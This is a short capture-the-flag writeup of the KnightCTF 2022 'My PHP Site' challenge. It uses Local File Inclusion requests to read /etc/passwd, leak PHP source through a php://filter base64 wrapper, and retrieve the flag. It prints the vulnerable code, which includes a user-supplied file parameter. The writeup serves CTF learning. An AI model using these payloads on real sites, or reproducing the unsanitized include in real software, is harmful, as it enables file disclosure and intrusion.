 <h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.<br/><br/><br/><br/>
So follwoing the link of challenge we find ourself in a webpage, which contains:<br/><br/>

<br/><br/>
As you may already know php based websites are full of vulns.<br/><br/>
Getting a closer look at the link, we see the parametre: `/?file=index.html`<br/><br/>
Immediatly we think about an LFI ( Local File Inclusion ).<br/><br/>
Let's try getting something with it:<br/><br/>
`/?file=/etc/passwd`<br/><br/>
YEP, we got an LFI, nothing to find on the /etc/passwd though.<br/><br/>
Let's try getting the source code:<br/><br/>
`/?file=index.php`<br/><br/>
We get an `ERROR!!`<br/><br/>
hmmm I wonder why...let's use a php filter, the base64 one for example.<br/><br/>
`/?file=php://filter/convert.base64-encode/resource=index.php`<br/><br/>
We got the source code:<br/><br/>
```PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI```<br/><br/>
Let's decode it from base64.<br/><br/>
`base64 -d index`<br/><br/>
we get the php source code.<br/><br/>
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!<br/><br/>
`/?file=s3crEt_fl49.txt`<br/><br/>
Bingo<br/><br/>
`KCTF{L0C4L_F1L3_1ncLu710n}`<br/><br/>

